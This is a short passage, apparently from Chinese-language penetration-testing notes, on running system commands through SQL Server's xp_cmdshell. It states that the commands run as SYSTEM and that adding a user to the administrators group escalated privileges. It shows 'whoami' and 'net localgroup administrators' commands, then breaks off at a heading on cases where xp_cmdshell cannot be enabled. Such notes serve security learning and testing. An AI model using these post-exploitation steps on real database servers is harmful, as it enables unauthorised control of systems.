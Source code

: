 ‍

	通过 xp_cmdshell 执行系统命令，査看为system权限，并将用户加入管理组提权成功

```bash
exec xp_cmdshell 'whoami'
exec xp_cmdshell "net localgroup administrators"
```

​![image](assets/image-20241030144319-v2bmzy0.png)​![image](assets/image-20241030144339-8ubnbtp.png)​​

###### **如果xp_cmdshell打不开--三种情况**

